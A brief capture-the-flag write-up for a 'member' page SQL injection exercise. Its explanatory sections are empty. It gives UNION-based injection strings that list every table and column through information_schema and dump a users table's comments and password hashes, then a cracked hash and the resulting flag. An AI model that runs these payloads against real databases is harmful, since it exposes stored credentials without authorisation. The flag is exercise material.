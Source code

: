 ## SQL_injection: member

### Definition


### Problem



### Solution



### FLAG

After getting all table names and their column names, we notice the existence of an `users` table with the following columns;

`user_id` `first_name` `last_name` `town` `country` `planet` `commentaire` `countersign`

After injecting the following query: `1 or 1=1 UNION select commentaire, countersign FROM users`,
we found a hidden note (`Decrypt this password -> then lower all the char. Sh256 on it and it's good !`),
within the comments column.

the password was `5ff9d0165b4f92b14994e5c685cdce28`, after decrypting it we get `FortyTwo`

`FortyTwo` =(lowercase)=> `fortytwo` =(Sh256)=> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5` Ta-Duh!!!

## Links

* []() -- 

## Notes

 * the QUERY we inject to get table names AND their column names in all databases from the SQL Server;

`
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
`
